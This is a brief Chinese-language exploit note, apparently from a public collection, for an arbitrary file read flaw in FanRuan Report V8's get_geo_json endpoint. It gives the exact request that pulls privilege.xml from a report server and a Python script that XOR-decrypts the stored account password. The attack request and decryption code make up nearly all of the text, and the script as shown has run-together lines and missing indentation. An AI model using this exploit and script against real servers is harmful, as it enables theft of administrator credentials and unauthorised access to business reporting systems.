 # 帆软报表 V8 get_geo_json 任意文件读取漏洞

## 帆软报表 V8 get_geo_json 任意文件读取漏洞

```
WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
获得账号密码后进行解密，解密脚本如下
解密脚本
cipher = 'XXXXXXXXXXX' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23]
Password = "" cipher = cipher[3:]
for i in range(int(len(cipher) / 4)):
c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
Password = Password + chr(c2)
print (Password)

```


